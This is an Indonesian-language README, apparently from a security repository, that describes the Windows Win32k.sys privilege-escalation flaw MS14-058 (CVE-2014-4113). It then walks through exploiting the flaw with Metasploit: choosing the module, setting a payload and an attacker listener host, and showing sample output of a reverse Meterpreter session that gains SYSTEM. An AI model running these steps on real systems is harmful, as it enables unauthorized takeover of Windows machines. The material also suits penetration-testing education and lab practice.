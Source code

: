 # MS14-058

## A. Apa itu MS14-058?

[MS14-058](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-058) adalah kerentanan Local Privilege Escalation (LPE) pada sistem operasi Windows yang ditemukan di `Win32k.sys`, sebuah driver kernel-mode dari subsistem grafik Windows.

Kerentanan ini memungkinkan penyerang dengan hak akses terbatas (user biasa) untuk mengeksekusi kode arbitrer dalam mode kernel, dan mendapatkan hak akses tertinggi (`NT AUTHORITY\SYSTEM`).

## B. Detail Teknis:
- CVE ID: `CVE-2014-4113`
- Buletin Microsoft: `MS14-058`
- Tanggal Rilis: `14 Oktober 2014`
- Tipe: Local Privilege Escalation (LPE)
- Komponen: `win32k.sys`
- Arsitektur: `x86` dan `x64`
- Platform: `Windows`

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `MS14-058`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-058#affected-software](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-058#affected-software)
  
## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit MS14-058:

   ```
   msf6 > use exploit/windows/local/ms14_058_track_popup_menu
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] win32k.sys file version: 6.1.7601.17514 branch: 17
   [*] Reflectively injecting the exploit DLL and triggering the exploit...
   [*] Launching msiexec to host the DLL...
   [+] Process 2960 launched.
   [*] Reflectively injecting the DLL into 2960...
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 18 opened (192.168.1.42:4444 -> 192.168.1.50:49177) at 2025-05-14 17:01:01 +0700

   meterpreter >
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```

   > Keterangan: `NT AUTHORITY\SYSTEM` adalah akun tertinggi di sistem Windows itu setara dengan `root` pada sistem Linux.
